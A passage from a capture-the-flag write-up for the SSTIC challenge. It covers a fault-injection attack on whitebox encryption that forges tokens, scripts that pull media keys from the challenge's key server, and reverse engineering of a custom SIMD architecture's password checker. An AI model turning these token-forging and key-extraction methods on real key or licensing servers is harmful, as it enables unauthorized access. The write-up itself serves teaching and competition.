    for pos in range(8, 16):
        manip = final[:]
        for i in range(256):
            manip[pos] = i
            s.send(b'\x00' + bytes(run_with_manip(code, manip)) + ident)
        winner = None
        for i in range(256):
            resp = s.recvn(1)
            if resp[0] in (1, 2):
                dec = s.recvn(16)
                if dec[pos] == payload[pos]:
                    winner = i
            else:
                raise Exception("decryption fail :(")

        print(f"{pos=}; {winner=}")
        assert winner is not None
        final[pos] = winner
    return bytes(run_with_manip(code, final))

print('key+ident:', (encrypt(b'\0' * 16) + ident).hex())
```

In the disassembly, the tampering consisted of modifying the code as follows (see [`stage3/interp.txt`](files/stage3/interp.txt)):

```
"267da9:";  r[17] = r[17] ^ r[20]
"267dad:";  r[18] = r[18] ^ r[21]
"267db1:";  r[19] = r[19] ^ r[22]
"267db5:";  r[20] = r[20] ^ r[19]
"267db9:";  r[21] = r[21] ^ r[16]
"267dbd:";  r[22] = r[22] ^ r[17]
"267dc1:";  r[23] = r[23] ^ r[18]
"267dc5:";  r[8] = prog[r[20] + 0xa278f]
"267dcc:";  r[9] = prog[r[21] + 0x70e0f]
"267dd3:";  r[10] = prog[r[22] + 0x34c54b]
"267dda:";  r[11] = prog[r[23] + 0x30a1eb]
"267de1:";  r[12] = prog[r[16] + 0x278225]
"267de8:";  r[13] = prog[r[17] + 0x257a61]
"267def:";  r[14] = prog[r[18] + 0x34c21f]
"267df6:";  r[15] = prog[r[19] + 0x33affa]
for i in range(16):
    r[i] ^= manip[i]
"267dfd:";  r[16] = prog[r[8] + 0x34c11f]
"267e04:";  r[17] = prog[r[9] + 0x31acfa]
"267e0b:";  r[18] = prog[r[10] + 0x34becf]
"267e12:";  r[19] = prog[r[11] + 0x27863a]
```

Side-note: While writing this writeup, I realized that modifying at the original position - before 0x267dc5 - would actually have been better because the bytes were fully independent at that point - so only 256 messages would be needed, or even as low as 32 with some clever optimizations.

### Acquiring More Media Keys

For each of the file idents in the file ident table (from `service`), I generated `perms=0` encryptions, then tried to submit them to the key server under reqno 1...and the server told me that the `ident` had expired. D'oh! I only had an hour, and by this point I was several hours out of date.

So, I went to grab a new `guest.so`, and to my chagrin: the opcodes were totally different! The VM instruction set is randomized by randomly assigning opcode bytes to operations. So, I had to carry out the following steps (within an hour!):

- Download the new `guest.so`
- Open it in IDA, identify the size of the program (from the `init_array` function)
- Modify the `guest-dump.c` program to dump the right program length
- In IDA, figure out what the new opcodes are for each operation that matters
- Run `interp-disas.py` to produce `interp.txt`
- Locate the tamper location and add the `manip` code (luckily, the whitebox encryption algorithm itself doesn't change - although the tables do)
- Insert the correct `ident` into `interp-encrypt.py` and run it to get new encryptions

This is, unsurprisingly, time-consuming. But, having done all these steps once, the second time was quite fast - only around 15 minutes - leaving 45 minutes to send the appropriate get-key messages (reqno 1) to the key server and get media keys!

```python
files = [
    '6FC51949A75BFA98',
    '583C5E51D0E1AB05',
    '675160EFED2D139B',
    '08ABDA216C40B90C',
    '1D0DFAA715724B5A',
    '3A8AD6D7F95E3487',
    '325149E3FC923A77',
    '46DCC15BCD2DB798',
    '4CE294122B6BD2D7',
    '4145107573514DCC',
    '675B9C51B9352849',
    '3B2C4583A5C9E4EB',
    '58B7CBFEC9E4BCE3',
    '272FED81EAB31A41',
    'FBDF1AF71DD4DDDA',
    'ED6787E18B12543E',
    '68963B6C026C3642',
    '6811AF029018505F',
    '59BDD204AA7112ED',
    '75EDFF360609C9F7',
    'D603C7E177F13C40',
]

for fid in files:
    code = bytes.fromhex(fid)[::-1]
    enc = encrypt(code + b'\0' * 8)
    print("encryption:", enc.hex())
    s.send(b'\x01' + enc + ident)
    res = s.recvn(1)[0]
    if res == 3:
        key = s.recvn(16)
        print("file %s: key = %s" % (fid, key.hex()))
    else:
        print("file %s: error %d" % (fid, res))
```

Well, some of the keys, anyway. There's a secondary check in the service that rejects access to media keys (via reqno 1) where the file permissions are equal to zero. And, there's some kind of "debug mode" enabled, so I also can't get access to any keys for files where the `ident` has the high bit set. So, that leaves only these files:

```
ident                 perms       key
0x08ABDA216C40B90C    0xCC90EBFE  e5ccff13eb6e312b33b452ecbc0af0ac
0x1D0DFAA715724B5A    0xCC90EBFE  6b636b81619f2088489246eb2cfb6e23
0x3A8AD6D7F95E3487    0xCC90EBFE  682e887985c63472dc0271d9e5210636
0x325149E3FC923A77    0xCC90EBFE  72b79ca42d9034260a463a195aef53b7
0x46DCC15BCD2DB798    0xCC90EBFE  5a24c3efef33c97cdb0e7dbf2bf9579b
0x4CE294122B6BD2D7    0xCC90EBFE  d0bdadd7940e77f6e41c4ec8f3174589
0x4145107573514DCC    0xCC90EBFE  f9f81180deb3fb4a1132d794536b7832
0x6811AF029018505F    0xCC90EBFE  64670bf9fe8ac6c438a9c1f55465088e
```

This gives us access to the files in the `ambiance` directory. The directory listing, file ID 0x6811AF029018505F, decrypts to this:

```
[{"name": "5534d32f4fd6a1454d55924291fc1d179ff84521920272ae4e8ae718e0c39392.enc", "real_name": "Suite Sud Armoricaine.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "1d0dfaa715724b5a"}, {"name": "581ed636bd7a1bbab890aeb1b458bb4f3bff59827afdd8582486ff0a22944aec.enc", "real_name": "Swallowtail Jig - Irish Fiddle Tune.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "3a8ad6d7f95e3487"}, {"name": "1026f340ad5175f2a73d2e3513d69ffd96285ca9ec89f50629a3426e6be45b09.enc", "real_name": "The Banks of Spey -- Scottish Fiddle Tune.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "325149e3fc923a77"}, {"name": "f0808dfbf75a5afaddff38574fe2bf03f2ff43b78cfca74aace782e06bc69511.enc", "real_name": "The Era of Legends.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "46dcc15bcd2db798"}, {"name": "96fe4e62d09539ad93093c441766dfc0011dc824ab4b9b90f6b366cd9578ccbf.enc", "real_name": "The Lone Wolf.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "4ce294122b6bd2d7"}, {"name": "11b1aef316795c3a3a440596216dd288fbee939689fad49e82d78baf52b574da.enc", "real_name": "Tri Martelod.mp3", "type": "mp3", "perms": "00000000cc90ebfe", "ident": "4145107573514dcc"}, {"name": "48e3847a2774bf900c2cda70503dab44e37b5cfe14e0367b555e246bf2e75943.enc", "real_name": "info.txt", "type": "txt", "perms": "00000000cc90ebfe", "ident": "08abda216c40b90c"}]
```

The file `info.txt`, when decrypted, reveals the Stage 3 flag:

```
Musique pour les entractes

SSTIC{9a5914929b7947afbef39446aafacd35}
```

## Stage 4

At this point, we have two inaccessible directories in the media server: `admin` (ID 0x75edff360609c9f7) which has `perms` 0, so the `get_key` keyserver request (reqno 1) does not work, and `prod` (ID 0xd603c7e177f13c40), which has `perms` 1000, but the high bit of the ID is set, which means that the key cannot be retrieved while the hardware device is in "debug mode".

Thanks to our ability to forge `perms = 0` messages, we also have access to two new requests on the service - reqno 2 and reqno 3. Let's take a look at these two requests. Neither request makes any use of the decrypted data beyond the `perms` check. reqno 2 receives the following data:

- 8 bytes, representing the "code size" `N` which must be `<= 0x1000`
- N bytes, for the code
- 8 bytes, representing the "input size" `M` which must also be `<= 0x1000`
- M bytes, for the input
- 8 bytes, representing the "output size" `O` which must be `<= 0x1000`

It then calls function 0xA2CF to interact with the device, sending it several `ioctl`s; the error message on failure indicates that it is apparently executing code. On completion, it outputs `O` bytes and also prints out a "debug log" originating from the device.

reqno 3 receives 80 bytes, and then also calls the function at 0xA2CF, this time with a hardcoded 0x301-byte "code" segment and the 80-byte input as the "input". It checks that output consists of 48 0xff bytes followed by the string `EXECUTE FILE OK!`; if the output matches, it prints "good pass", and then receives up to 900000 bytes of data. It writes this data to `/home/sstic/execfile` and then executes this program via `popen`. In other words: if we can supply the right 80 byte input to reqno 3, we gain the ability to *run arbitrary code* on the key server! The full decompilation of the `service` binary is attached in [`stage4/service.c`](files/stage4/service.c)  and [`stage4/service.h`](files/stage4/service.h) (note that most of the binary is simply `libc` code).

The task is clear at this point: both reqno 2 and reqno 3 execute some kind of code on the hardware device (presumably the "custom architecture" mentioned in the Readme), but reqno 3 uses a hardcoded piece of code which implements a password check. We have to figure out the custom architecture from the given block of code, and also from the fact that we can execute arbitrary code of our own.

The 0x301-byte code block executed by reqno 3 looks like this ([`stage4/pwcheck.prog`](files/stage4/pwcheck.prog)):

```
00000000: 4e014020 421b0000 091b1000 0ce32410  N.@ B.........$.
00000010: 09020600 0c631c10 4c03ac10 001b0100  .....c..L.......
00000020: 4c030810 4e050002 19620100 1c23ac10  L...N....b...#..
00000030: 29411002 2ce33c10 4c03ac10 39212002  )A..,.<.L...9! .
00000040: 3c23ac10 45160500 20170d07 27171000  <#..E... ...'...
00000050: 2017000c 29020500 2c636010 4c03ac10   ...)...,c`.L...
00000060: 45160500 20170601 27171000 20170f02  E... ...'... ...
00000070: 29020500 2c637c10 4c03ac10 19030804  )...,c|.L.......
00000080: 1c638810 4c03ac10 421f0011 491f0013  .c..L...B...I...
00000090: 4ce3a810 4e040700 45060000 4f040700  L...N...E...O...
000000a0: 401f1000 4c038c10 7d030011 0b000000  @...L...}.......
000000b0: 00000000 00000000 00000000 00000000  ................
000000c0: 00000000 00000000 00000000 00000000  ................
000000d0: 00000000 00000000 00000000 00000000  ................
000000e0: 00000000 00000000 00000000 00000000  ................
000000f0: 00000000 00000000 00000000 00000000  ................
00000100: 4b05040a 4103490b 4cef2116 4d1d0621  K...A.I.L.!.M..!
00000110: 4c18053a 481a080b 40160c07 41020101  L..:H...@...A...
00000120: 4103030a 4803190b 4c0f0916 4a1c0101  A...H...L...J...
00000130: 471c110a 44e73119 42170d37 41020001  G...D.1.B..7A...
00000140: 4e18150a 46000f0b 40171d07 410a0001  N...F...@...A...
00000150: 4e18150a 46080f0b 45160b07 4f190701  N...F...E...O...
00000160: 4d19020a 4d120c0b 49160807 43a19e10  M...M...I...C...
00000170: 7300d51b 4a1f093b 4f0c0b07 4f191601  s...J..;O...O...
00000180: 4107030a 481f190b 4f040b07 4f191601  A...H...O...O...
00000190: 410f030a 4407391a 2a080d07 250a0601  A...D.9.*...%...
000001a0: 240b050a 2208090b 2a000d07 250e0601  $..."...*...%...
000001b0: 7300d51b 2208090b 2a040d07 250a0601  s..."...*...%...
000001c0: 2407050a 2200090b 2a080d07 43017210  $..."...*...C.r.
000001d0: 2e01040a 2d0a090b 421a0e07 28151601  ....-...B...(...
000001e0: 280c150a 2c0a0c0b 20060e07 2a040401  (...,... ...*...
000001f0: 4c15040a 2f13050b 260b1907 2b040301  L.../...&...+...
00000200: 2e01040a 2d0a090b 421a0e07 28150e01  ....-...B...(...
00000210: 280c1d0a 2c0a0c0b 20060e07 2a040401  (...,... ...*...
00000220: 4c15040a 2f130e0b 260b1407 2b040301  L.../...&...+...
00000230: 4e1c040a 0304090b 420f0d27 4d090600  N.......B..'M...
00000240: 4006053a 46080b0b 200a0d07 4a040501  @..:F... ...J...
00000250: 4106053a 4807190b 40071d07 41071631  A..:H...@...A..1
00000260: 400f070a 2802090b 450a0e07 40071631  @...(...E...@..1
00000270: 4e00150a 480f190b 4e092d37 410e0401  N...H...N.-7A...
00000280: 2e05050a 4d020a0b 4f092d37 4f011601  ....M...O.-7O...
00000290: 4e08150a 4601393b 4e000f07 2f040601  N...F.9;N.../...
000002a0: 4b05060a 4701393b 0b0c0d07 0f020601  K...G.9;........
000002b0: 0e03050a 0804090b 000c0d07 0f020601  ................
000002c0: 0e03050a 0804090b 000c0d07 0f020601  ................
000002d0: 0e03050a 0804090b 000c0d07 0f020601  ................
000002e0: 0e03050a 0804090b 000c0d07 0f020601  ................
000002f0: 0e03050a 0804090b 000c0d07 0f020601  ................
00000300: 00                                   .
```

### Reversing an Unknown Instruction Set

So, we're dealing with an unknown instruction set. Luckily, I've written a writeup about reversing a different unknown architecture in the Dragon Sector CTF 2019: https://www.robertxiao.ca/hacking/dsctf-2019-cpu-adventure-unknown-cpu-reversing/

The first task is to figure out the rough details of the architecture, so I wrote a small program to facilitate interactive execution of programs ([`stage4/testprog.py`](files/stage4/testprog.py)):

```python
from pwn import *
import sys

s = remote('62.210.125.243', 1337)
sig = s.recvn(4)
assert sig == b'STIC'
 
# key obtained through the stage3 whitebox crypto exploit, needs to be refreshed each hour
key = bytes.fromhex('0d548ffc7f5f517743387e1d6477ea75f8bf6a60')

def run_prog(prog, data):
    s.send(b'\x02' + key)
    s.send(p64(len(prog)))
    s.send(prog)
    s.send(p64(len(data)))
    s.send(data)
    s.send(p64(0x1000))

    res = s.recvn(1)
    if res[0] == 8:
        output = s.recvn(0x1000)
        print("output:", output.rstrip(b'\0').hex())
        r = s.recvuntil('---DEBUG LOG END---\n').decode('latin1')
        print(r)
        return output
    else:
        raise Exception("program failed, error %d" % res[0])
```

Since I'm still using a manual process for constructing valid `perms = 0` keys from `guest.so`, every hour I will need to spend a few minutes downloading a new `guest.so` and processing it to get a key. Luckily, by this point I have cut the required time to run the process down to less than ten minutes (Maybe I should have automated it - but for this stage I only needed to use three hours with the server).

First, let's just try submitting an empty program just to check what the debug information looks like: `run_prog(b'', b'')`. This produces the following output:

```
output: 
---DEBUG LOG START---
Bad instruction
regs:
PC : 1000
R0 : 00000000000000000000000000000000
R1 : 00000000000000000000000000000000
R2 : 00000000000000000000000000000000
R3 : 00000000000000000000000000000000
R4 : 00000000000000000000000000000000
R5 : 00000000000000000000000000000000
R6 : 00000000000000000000000000000000
R7 : 00000000000000000000000000000000
RC : 00000000000000000000000000000000
stack: []
---DEBUG LOG END---
```

We see that the debug log will tell us a lot of information: why the CPU halted (here, "Bad instruction" means that the instruction was not valid), the program counter at the time of the halt, and the contents of eight registers plus a mystery "RC" register. We even get information about some kind of stack! We can use this information to explore the effects of individual instructions - which will allow us to deduce their functionality.

Next, we have to figure out how long instructions are. When we use just the first byte of the program (`run_prog(bytes.fromhex('4e'), b'')`), we get `Bad instruction` with a PC of 1004. This suggests that instructions might just be exactly 4 bytes long (i.e. the first instruction is read as `4e000000`) - which is true in many RISC architectures, for example.

Proceeding with this assumption, I submitted the first four bytes of the password checking program with a simulated input: `run_prog(bytes.fromhex('4e014020'), cyclic(0x50))`. The function `cyclic` (from pwntools) generates a pattern like `aaaabaaacaaadaaaeaaa...` which can be used to identify anything that is loaded from the user input. The following output is generated:

```
output: 
---DEBUG LOG START---
Bad instruction
regs:
PC : 1004
R0 : 71616161726161617361616174616161
R1 : 00000000000000000000000000000000
R2 : 00000000000000000000000000000000
R3 : 00000000000000000000000000000000
R4 : 00000000000000000000000000000000
R5 : 00000000000000000000000000000000
R6 : 00000000000000000000000000000000
R7 : 00000000000000000000000000000000
RC : 00000000000000000000000000000000
stack: []
---DEBUG LOG END---
```

Neat! It looks like something was loaded from our input, and that the registers seem to be *very* big (128 bits). Using `cyclic_find`, we can look up the index of this data: `cyclic_find(bytes.fromhex('71616161726161617361616174616161'))`. This produces 64 - that is, the instruction `4e014020` appears to have loaded 16 bytes from offset 0x40 in the input data.

By submitting modified versions of the instruction, we can quickly determine that the second-last byte corresponds to the offset - for example, the instruction `4e010020` loads the first 16 bytes of the input. We can also discover that `4e010010` loads `4e010010` into R0 - which tells us that the last two bytes are used to construct the address of the load! That is, the input data is at address 0x2000, so `4e010020` loads 16 bytes from 0x2000, while `4e010010` loads 16 bytes from 0x1000 (the code).

By modifying the second byte, we can determine that different values result in different registers being loaded:

```
4e010010 => R0
4e050010 => R1
4e090010 => R2
4e0d0010 => R3
4e110010 => R4
4e150010 => R5
4e190010 => R6
4e1d0010 => R7
```

Using `00` doesn't seem to do anything, while `02` or `03` produce a `Bad instruction` at address 0x1000, indicating that they're invalid.

We've learned a lot about the instruction set from one simple instruction! Plus, now we know how to control the values of every register by loading from different parts of our input stream. This will help us to figure out the other instructions.

I wrote a quick script to run each instruction from the password check program individually, to see if I could immediately work out what some of them did. Some highlights:

```
09020600 set RC to 01010101010101010101010101010101
4c03ac10 set PC to 10ac
001b0100 set R6 to 01010101010101010101010101010101
4e050002 set R1 to 0e03070a9e040c0b2c0dd30774026801 - interesting because this is just a load from 0x200
19620100 set RC to 01000100010001000100010001000100
39212002 set RC to 01000000000000000100000000000000
20170d07 set R5 to 0d0700000d0700000d0700000d070000
7d030011 set PC to 1100 and put 0x1004 on the stack
```

From these examples, we can tell that `4c03ac10` is a jump, either an unconditional one or one where the condition is satisfied. From `09020600`, `19620100` and `39212002`, we can see that the RC register appears to be being treated as 16 bytes, 8 words, or 2 qwords, which suggests that this is a SIMD machine (i.e. instructions can operate simultaneously on multiple "lanes" within the large register). For example, the Intel SSE vector instructions and the ARM NEON instructions operate on SIMD registers and have similar capabilities. We can also see that the password check program seems to be making use of some data which isn't in the program itself, at address 0x200.

This clarifies some of the other instructions: `001b0100` appears to set every *byte* of R6 to 01, whereas `20170d07` appears to set every *dword* of R5 to `0d07`. Looking at the first hex digit of these instructions, it seems that 0 means "byte" (16 8-bit lanes), 1 means "word" (8 16-bit lanes), 2 means "dword" (4 32-bit lanes), 3 means "qword" (2 64-bit lanes) and 4 means "oword" (1 128-bit lane). This can be confirmed by running the following series of instructions:

```
001babcd sets R6 to abababababababababababababababab
101babcd sets R6 to abcdabcdabcdabcdabcdabcdabcdabcd
201babcd sets R6 to abcd0000abcd0000abcd0000abcd0000
301babcd sets R6 to abcd000000000000abcd000000000000
401babcd sets R6 to abcd0000000000000000000000000000
```

The next hex digit appears to control the operation. By loading constants into predefined registers, running various instructions derived from modifying instructions seen in the password program, and observing the results, I came up with the following list for the operations:

- 0 = add
- 1 = sub
- 2 = ldi (load constant)
- 3 = and
- 4 = or
- 5 = xor
- 6 = shr
- 7 = shl
- 8 = mul
- 9 = cmp (set RC somehow)
- a = lanerot (rotate whole lanes)
- b = ret/halt (maybe special)
- c = jmp
- d = call
- e = ld
- f = st

For example, by prepending `2003abcd` and `20074321` (loading `abcd0000` and `43210000` into R0 and R1), we get the following results to confirm `add/sub/and/or/xor/mul`:

```
20060000 sets R1 to eeee0000eeee0000eeee0000eeee0000
21060000 sets R1 to 9853ffff9853ffff9853ffff9853ffff
23060000 sets R1 to 03010000030100000301000003010000
24060000 sets R1 to ebed0000ebed0000ebed0000ebed0000
25060000 sets R1 to e8ec0000e8ec0000e8ec0000e8ec0000
28060000 sets R1 to c1deb81ac1deb81ac1deb81ac1deb81a
```

By and large, this felt like a "scientific" process of guessing (hypothesizing) what an instruction did, and then executing an appropriate test to confirm or refute the hypothesis.

The third and fourth hex digits (the second byte) controls the operand(s) of the instruction. This took a bit more work to figure out, but again a "scientific" approach worked very well:

- High 3 bits: opcode dependent
    - cmp: 0 = eq, 1 = lt, 2 = gt, 3 = le, 4 = ge, 5-7 = "Unexpected error"
    - jmp: 0 = always, 1 = any C lanes are zero, 3 = any C lanes are nonzero, 5 = all C lanes are zero, 7 = all C lanes are nonzero
- Next 3 bits: destination register number
- Next 2 bits: operand mode
    - 0 = illegal?, 1 = memory address, 2 = register, 3 = immediate

The final 2 bytes are the operand, which is interpreted as a memory address, register number or 16-bit immediate argument.

### Reversing the Password Checker (Part 1)

Armed with this understanding, I built a simple disassembler ([`stage4/disas.py`](files/stage4/disas.py)). In reality, I did not have all of the instructions understood when I started writing the disassembler; rather, any time I hit an unknown instruction, I went to test its functionality interactively to figure out what it was doing in the context of the code, so building this disassembler was largely done in tandem with understanding the instruction set.

```python
pc = 0x1000

while pc < 0x1100:
    cmd = f[pc:pc+4]
    suffix = {0: '.b', 1: '.w', 2: '.d', 3: '.q', 4: '.o', 7: ''}[cmd[0] >> 4]
    opc = ['add', 'sub', 'ldi', 'and', 'or', 'xor', 'shr', 'shl', 'mul', 'cmp', 'lanerot', 'ret', 'jmp', 'call', 'ld', 'st'][cmd[0] & 0xf]
    flags = cmd[1]
    opn = cmd[2] + (cmd[3] << 8)
    if (flags & 3) == 0:
        opns = f"[r{opn}]"
    elif (flags & 3) == 1:
        opns = f"[0x{opn:x}]"
    elif (flags & 3) == 2:
        opns = f"r{opn}"
    elif (flags & 3) == 3:
        opns = f"0x{opn:x}"

    rn = (flags >> 2) & 7
    if opc == 'cmp':
        opc += ['eq', 'lt', 'gt', 'le', 'ge'][flags >> 5]
    elif opc == 'jmp':
        opc = ['jmp', 'jany0', 'jmp2', 'jany1', 'jmp4', 'jall0', 'jmp6', 'jall1'][flags >> 5]
    elif flags >> 5:
        opc += f'[{flags}]'

    print(f'{pc:04x}: {cmd.hex()} {opc}{suffix} r{rn}, {opns}')
    pc += 4
```

This produces the following disassembly for the first part of the password checker:

```
1000: 4e014020 ld.o r0, [0x2040]
1004: 421b0000 ldi.o r6, 0x0
1008: 091b1000 cmpeq.b r6, 0x10
100c: 0ce32410 jall1.b r0, 0x1024
1010: 09020600 cmpeq.b r0, r6
1014: 0c631c10 jany1.b r0, 0x101c
1018: 4c03ac10 jmp.o r0, 0x10ac
101c: 001b0100 add.b r6, 0x1
1020: 4c030810 jmp.o r0, 0x1008
1024: 4e050002 ld.o r1, [0x200]
1028: 19620100 cmple.w r0, r1
102c: 1c23ac10 jany0.w r0, 0x10ac
1030: 29411002 cmpgt.d r0, [0x210]
1034: 2ce33c10 jall1.d r0, 0x103c
1038: 4c03ac10 jmp.o r0, 0x10ac
103c: 39212002 cmplt.q r0, [0x220]
1040: 3c23ac10 jany0.q r0, 0x10ac
1044: 45160500 xor.o r5, r5
1048: 20170d07 add.d r5, 0x70d
104c: 27171000 shl.d r5, 0x10
1050: 2017000c add.d r5, 0xc00
1054: 29020500 cmpeq.d r0, r5
1058: 2c636010 jany1.d r0, 0x1060
105c: 4c03ac10 jmp.o r0, 0x10ac
1060: 45160500 xor.o r5, r5
1064: 20170601 add.d r5, 0x106
1068: 27171000 shl.d r5, 0x10
106c: 20170f02 add.d r5, 0x20f
1070: 29020500 cmpeq.d r0, r5
1074: 2c637c10 jany1.d r0, 0x107c
1078: 4c03ac10 jmp.o r0, 0x10ac
107c: 19030804 cmpeq.w r0, 0x408
1080: 1c638810 jany1.w r0, 0x1088
1084: 4c03ac10 jmp.o r0, 0x10ac
1088: 421f0011 ldi.o r7, 0x1100
108c: 491f0013 cmpeq.o r7, 0x1300
1090: 4ce3a810 jall1.o r0, 0x10a8
1094: 4e040700 ld.o r1, [r7]
1098: 45060000 xor.o r1, r0
109c: 4f040700 st.o r1, [r7]
10a0: 401f1000 add.o r7, 0x10
10a4: 4c038c10 jmp.o r0, 0x108c
10a8: 7d030011 call r0, 0x1100
10ac: 0b000000 ret.b r0, [r0]
```

My assembly notation is ARM-ish, with the destination on the left and source on the right (except for `st`), `[]` representing memory accesses, and suffixes (`.b/w/d/q/o`) on instructions representing the lane width. 

After address 0x1100, my disassembler started generating nonsense; testing those instructions on the remote system frequently threw "Bad instruction", indicating that the instructions after 0x1100 were probably obfuscated. Indeed, the little loop at 0x1094 appears to XOR the code at 0x1100 with the contents of `r0`. `r0` is loaded from `[0x2040]` and is not modified, so this is basically XORing the code with a constant from your password buffer. All of the intermediate code checks that this is a specific 16-byte value through a series of constraints.

There are two ways to recover the correct 16-byte XOR key: the first way is to actually understand the entire code, all of the constraints, and derive the key by solving for the constraints. This is what I actually did, and it's time-consuming. Here are the constraints for the 16-byte key:

- contains every byte 00..0f
- every WORD is `<=` a corresponding word from [0x200]: 0E03 070A 9E04 0C0B 2C0D D307 7402 6801
- every DWORD is `>` a corresponding word from [0x210]: 0E03040A 88B3060B 000B0D07 0F029600
- every QWORD is `<` a corresponding word from [0x220]: 0E870B8A1C04090B 001C0D070F020601
- some DWORD is == 0x070d0c00
- some DWORD is == 0x0106020f
- some WORD is == 0x0408

This uniquely specifies the key `0e 03 05 0a 08 04 09 0b 00 0c 0d 07 0f 02 06 01`.

The other way is simply to observe that the end of the code should probably be all zeroes, but is instead the repeating pattern `0e03050a 0804090b 000c0d07 0f020601`, and infer that this must be the key. In retrospect, that would have been the more clever strategy :)

Regardless of how you get the key, having it allows you to decrypt the code at 0x1100, and reveal the "true" password check.

### Reversing the Password Checker (Part 2)

The disassembly for the second part looks like this:

```
1100: 45060100 xor.o r1, r1
1104: 49074000 cmpeq.o r1, 0x40
1108: 4ce32c11 jall1.o r0, 0x112c
110c: 421f0020 ldi.o r7, 0x2000
1110: 421b0030 ldi.o r6, 0x3000
1114: 401e0100 add.o r7, r1
1118: 401a0100 add.o r6, r1
111c: 4e000700 ld.o r0, [r7]
1120: 4f000600 st.o r0, [r6]
1124: 40071000 add.o r1, 0x10
1128: 4c030411 jmp.o r0, 0x1104
112c: 451e0700 xor.o r7, r7
1130: 491f1400 cmpeq.o r7, 0x14
1134: 4ce33812 jall1.o r0, 0x1238
1138: 421b0030 ldi.o r6, 0x3000
113c: 4e000600 ld.o r0, [r6]
1140: 401b1000 add.o r6, 0x10
1144: 4e040600 ld.o r1, [r6]
1148: 401b1000 add.o r6, 0x10
114c: 4e080600 ld.o r2, [r6]
1150: 401b1000 add.o r6, 0x10
1154: 4e0c0600 ld.o r3, [r6]
1158: 451a0600 xor.o r6, r6
115c: 401b0100 add.o r6, 0x1
1160: 431a0700 and.o r6, r7
1164: 45160500 xor.o r5, r5
1168: 491a0500 cmpeq.o r6, r5
116c: 4ca39811 jall0.o r0, 0x1198
1170: 7d03d011 call r0, 0x11d0
1174: 421b0030 ldi.o r6, 0x3000
1178: 4f000600 st.o r0, [r6]
117c: 401b1000 add.o r6, 0x10
1180: 4f040600 st.o r1, [r6]
1184: 401b1000 add.o r6, 0x10
1188: 4f080600 st.o r2, [r6]
118c: 401b1000 add.o r6, 0x10
1190: 4f0c0600 st.o r3, [r6]
1194: 4c033011 jmp.o r0, 0x1130
1198: 2a040000 lanerot.d r1, [r0]
119c: 2a080000 lanerot.d r2, [r0]
11a0: 2a080000 lanerot.d r2, [r0]
11a4: 2a0c0000 lanerot.d r3, [r0]
11a8: 2a0c0000 lanerot.d r3, [r0]
11ac: 2a0c0000 lanerot.d r3, [r0]
11b0: 7d03d011 call r0, 0x11d0
11b4: 2a0c0000 lanerot.d r3, [r0]
11b8: 2a080000 lanerot.d r2, [r0]
11bc: 2a080000 lanerot.d r2, [r0]
11c0: 2a040000 lanerot.d r1, [r0]
11c4: 2a040000 lanerot.d r1, [r0]
11c8: 2a040000 lanerot.d r1, [r0]
11cc: 4c037411 jmp.o r0, 0x1174
11d0: 20020100 add.d r0, r1
11d4: 250e0000 xor.d r3, r0
11d8: 42160300 ldi.o r5, r3
11dc: 27171000 shl.d r5, 0x10
11e0: 260f1000 shr.d r3, 0x10
11e4: 240e0500 or.d r3, r5
11e8: 200a0300 add.d r2, r3
11ec: 25060200 xor.d r1, r2
11f0: 42160100 ldi.o r5, r1
11f4: 27170c00 shl.d r5, 0xc
11f8: 26071400 shr.d r1, 0x14
11fc: 24060500 or.d r1, r5
1200: 20020100 add.d r0, r1
1204: 250e0000 xor.d r3, r0
1208: 42160300 ldi.o r5, r3
120c: 27170800 shl.d r5, 0x8
1210: 260f1800 shr.d r3, 0x18
1214: 240e0500 or.d r3, r5
1218: 200a0300 add.d r2, r3
121c: 25060200 xor.d r1, r2
1220: 42160100 ldi.o r5, r1
1224: 27170700 shl.d r5, 0x7
1228: 26071900 shr.d r1, 0x19
122c: 24060500 or.d r1, r5
1230: 401f0100 add.o r7, 0x1
1234: 0b000000 ret.b r0, [r0]
1238: 42030020 ldi.o r0, 0x2000
123c: 420b0001 ldi.o r2, 0x100
1240: 4e050030 ld.o r1, [0x3000]
1244: 4e0c0200 ld.o r3, [r2]
1248: 20060000 add.d r1, r0
124c: 45060300 xor.o r1, r3
1250: 4f050030 st.o r1, [0x3000]
1254: 40031000 add.o r0, 0x10
1258: 400b1000 add.o r2, 0x10
125c: 4e051030 ld.o r1, [0x3010]
1260: 4e0c0200 ld.o r3, [r2]
1264: 20060000 add.d r1, r0
1268: 45060300 xor.o r1, r3
126c: 4f051030 st.o r1, [0x3010]
1270: 40031000 add.o r0, 0x10
1274: 400b1000 add.o r2, 0x10
1278: 4e052030 ld.o r1, [0x3020]
127c: 4e0c0200 ld.o r3, [r2]
1280: 20060000 add.d r1, r0
1284: 45060300 xor.o r1, r3
1288: 4f052030 st.o r1, [0x3020]
128c: 40031000 add.o r0, 0x10
1290: 400b1000 add.o r2, 0x10
1294: 4e053030 ld.o r1, [0x3030]
1298: 4e0c0200 ld.o r3, [r2]
129c: 20060000 add.d r1, r0
12a0: 45060300 xor.o r1, r3
12a4: 4f053030 st.o r1, [0x3030]
12a8: 0b000000 ret.b r0, [r0]
```

This is a lot more code, but it's still pretty straightforward to reverse (see annotated disassembly in [`stage4/disas.txt`](files/stage4/disas.txt)). A brief summary of the algorithm:

- 0x1100 - 0x1128: A loop which copies 0x40 bytes from 0x2000 to 0x3000 (the 0x3000 page is the "output" of the program)
- 0x112c - 0x11cc: A loop which runs 0x14 times. Each iteration, it does the following:
    - Loads the 0x40 bytes from 0x3000 into registers R0 through R3
    - If the iteration count is *even*, just call the procedure at 0x11d0
    - If the iteration count is *odd*, perform a bunch of `lanerot.d` operations (shifting the lanes around), call 0x11d0, and perform more `lanerot.d` operations.
    - Stores R0 through R3 back to 0x3000
    - After the last iteration, jumps to 0x1238
- 0x11d0 - 0x1234: A procedure which performs a bunch of shift, xor, add, or operations dword-wise on r0 through r3. The operations are all invertible (for example, the shift-and-or operations end up simply being rotations).
- 0x1238 - 0x1250: Load the literal constant 0x2000 into r0, 16 bytes from [0x3000] into r1 and 16 bytes from [0x100] into r3. Stores (r1 + r0) ^ r3 into [0x3000].
- 0x1254 - 0x12a4: Similar to 0x1238, with the constants 0x2010, 0x2020, 0x2030, the bytes from [0x3010], [0x3020] and [0x3030] and the bytes from [0x110], [0x120], [0x130].

